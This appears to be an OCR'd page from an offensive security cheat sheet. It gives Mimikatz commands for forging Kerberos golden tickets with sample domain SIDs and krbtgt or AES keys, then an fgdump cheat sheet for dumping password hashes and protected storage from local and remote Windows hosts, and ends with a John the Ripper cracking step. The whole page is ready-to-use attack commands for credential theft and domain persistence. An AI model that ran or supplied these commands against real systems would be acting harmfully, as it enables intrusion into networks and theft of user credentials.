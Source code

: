 ```ps
kerberos::golden /domain:chocolate.local /sid:S-1-5-21-130452501-2365100805-3685010670 /aes256:15540cac73e94028231ef86631bc47bd5c827847ade468d6f6f739eb00c68e42 /user:Administrateur /id:500 /groups:513,512,520,518,519 /ptt /startoffset:-10 /endin:600 /renewmax:10080
kerberos::golden /admin:Administrator /domain:CTU.DOMAIN /sid:S-1-1-12-123456789-1234567890-123456789 /krbtgt:deadbeefboobbabe003133700009999 /ticket:Administrator.kiribi

#tgt
kerberos::tgt

#purge
kerberos::purge
```
#### fgdump Cheatsheat:

```cmd
# Dumping a Local Machine Using the Current User
fgdump.exe

# Dumping the Local Machine Using a Different Account
fgdump.exe -h 127.0.0.1 -u AnAdministrativeUser

# Dumping a Remote Machine (192.168.0.10) Using a Specified User (1)
fgdump.exe -h 192.168.0.10 -u AnAdministrativeUser

# Dumping a Remote Machine (192.168.0.10) Using a Specified User (2)
fgdump.exe -h 192.168.0.10 -u AnAdministrativeUser -p l4mep4ssw0rd

# Dumping Many Remote Machines, All With the Same Password
fgdump.exe -f hostfile.txt -u AnAdministrativeUser

# Dumping Many Remote Machines, Each With Its Own Username and Password
fgdump.exe -H combofile.txt

# Dumping Many Remote Machines More Efficiently
fgdump.exe -f hostfile.txt -u AnAdministrativeUser -T 10

# Dumping Hosts and Logging Output
fgdump.exe -h 192.168.0.10 -u AnAdministrativeUser -l myoutput.log

# Dumping Hosts, Logging Output and Viewing Verbose Messages
fgdump.exe -h 192.168.0.10 -u AnAdministrativeUser -l myoutput.log -v -v

# Dumping a Host Without Password Histories
fgdump.exe -h 192.168.0.10 -u AnAdministrativeUser -o

# Dumping a Host Without Cachedump or Pwdump Output
fgdump.exe -h 192.168.0.10 -u AnAdministrativeUser -c (or -w for skipping pwdump)

# Dumping Protected Storage
fgdump.exe -h 192.168.0.10 -u AnAdministrativeUser -s

## Protected storage can contain interesting secrets, including passwords for IE and Outlook if a user opted to have those programs remember passwords.

# Cracking passwords with john
## Passwords will usually be in username:LM_hash:NTLM_hash
## Example:MyUser:1188:E52CAC67419A9A224A3B108F3FA6CB6D:A4F49C406510BDCAB6824EE7C30FD852:::
## Saved to passwordhashes.txt then the command:
./john passwordhashes.txt
```
